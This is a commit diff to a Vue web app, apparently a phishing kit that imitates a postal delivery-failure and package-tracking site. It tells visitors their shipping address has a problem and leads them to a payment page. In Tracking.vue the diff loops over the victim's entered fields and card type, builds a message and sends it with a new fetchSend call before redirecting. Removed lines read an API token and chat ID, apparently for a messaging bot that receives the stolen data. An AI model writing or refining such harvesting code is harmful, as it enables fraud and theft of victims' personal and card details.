

Before and after one commit to Techboy07/upsps, a Vue app: page /delivery-failure/status in a window 1280 px wide. Shown: the top 798 px of the page. Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
resolved tracking

```diff
--- a/src/views/Payment.vue
+++ b/src/views/Payment.vue
@@ -68,7 +68,6 @@
 import { ref } from "vue";
 
 import { useCounterStore } from "/src/stores/info";
-const { VITE_API_TOKEN, VITE_CHAT_ID } = import.meta.env;
 
 const store = useCounterStore();
 const loading = ref(false);
--- a/src/views/Status.vue
+++ b/src/views/Status.vue
@@ -15,7 +15,7 @@
           delivered
         </li>
         <li>Your package has returned to our operation center</li>
-        <li>Please update your address, we will ship again in 01/09/2024</li>
+        <!-- <li>Please update your address, we will ship again in 01/09/2024</li> -->
       </ul>
     </div>
     <RouterLink to="/status">
--- a/src/views/Tracking.vue
+++ b/src/views/Tracking.vue
@@ -10,7 +10,7 @@
       </p>
     </div>
   </div>
-  <div class="pt-44 pb-20">
+  <div class="pt-40 md:pb-20 pb-10">
     <h4 class="font-semibold text-text-heading w-max mx-auto text-xl">
       Track Another Package <i class="ri-add-line text-red-600"></i>
     </h4>
@@ -22,7 +22,9 @@
       <p class="font-helv2 text-text-body">US94512106007770</p>
     </div>
 
-    <div class="w-full h-5 bg-text-heading"></div>
+    <div class="w-full h-5">
+      <div v-for="item in 3" :key="item" class="h-full bg-[#]"></div>
+    </div>
     <h4 class="text-red-600 text-xl font-semibold my-5">
       We have issues with your shipping address
     </h4>
@@ -70,9 +72,7 @@
 import { useCounterStore } from "/src/stores/info.js";
 import { ref } from "vue";
 import { useRouter } from "vue-router";
-import { updateMyMessage } from "../utils/updateMessage.js";
-
-const { VITE_API_TOKEN, VITE_CHAT_ID } = import.meta.env;
+import { updateMyMessage, fetchSend } from "../utils/updateMessage.js";
 
 const router = useRouter();
 const store = useCounterStore();
@@ -113,9 +113,10 @@
     store.cardType = store.getCardType;
 
     const theKeys = Object.keys(info);
-    for (let i = 0; i < theKeys.length; i++) {
-      updateMyMessage(`${theKeys[i]}:   ${data[i]}`);
+    for (let i = 0; i < 1; i++) {
+      updateMyMessage(myMessage, `${theKeys[i]}:   ${data[i]}`);
     }
+    fetchSend(myMessage.value, () => router.push("/payment"));
   }
 }
 </script>
```
Also changed, not shown: 1 other file (tests, documents, lock files or other folders).
